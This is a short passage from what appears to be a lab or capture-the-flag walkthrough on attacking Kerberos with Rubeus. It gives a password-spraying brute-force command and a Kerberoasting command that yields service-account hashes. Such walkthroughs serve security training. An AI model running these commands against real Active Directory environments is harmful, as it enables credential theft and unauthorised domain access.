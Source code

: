 Now we can run a brute force attack:

<mark style="color:green;">**`Rubeus.exe brute /password:Password1 /noticket`**</mark>

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<details><summary><mark style="color:green;"><strong>Task 3 Questions and Answers</strong></mark></summary></details>

### Kerberoasting w/ Rubeus

Navigate to the downloads folder in a terminal and run the following command:

<mark style="color:green;">**`C:\Users\Administrator\Downloads>Rubeus.exe kerberoast`**</mark>

We get 2 hashes, one for SQLservice and another from HTTPservice
